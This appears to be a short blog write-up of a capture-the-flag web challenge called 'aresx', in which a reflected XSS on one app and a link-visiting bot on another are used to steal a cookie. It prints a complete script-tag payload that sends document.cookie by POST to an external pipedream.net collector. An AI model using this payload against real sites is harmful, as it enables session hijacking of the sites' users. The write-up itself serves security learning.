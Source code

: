 ```yaml
---
layout: post
title:  server challenge aresx
image: /assets/img/aresx.png
date:   2022-08-29 21:52:19
tags:

description: The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:

categories:

---
```


The challenge has two separate webpages one which is vulnerable to xss attacks and from which we must steal a cookie, and another where we can send links to be opened:
![](/assets/img/2022-08-11-11-18-01.png)
Figure 1 The first app


![](/assets/img/2022-08-11-11-18-14.png)
Figure 2 Second app
The input to be opened by it is : 
http://vanilla.hub/?name=<script>fetch('https://enzvin6fpk7xtu0.m.pipedream.net', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>


https://enqmimydnbiuecc.m.pipedream.net
For the purpose of this challenge request.bin

 ![](2022-08-11-11-18-26.png)
Figure 3 this is the stolen cookie
 ![](2022-08-11-11-18-35.png)
Figure 4 Vulnerable code in the application

 ![](2022-08-11-11-18-43.png)
Figure 5 Docker config hostname
Because the get request to the 3002 app will echo it to the page Reflected XSS is possible.  The bot on 3003 will open our request with the xss and we steal the cookie and then boom we’re done.
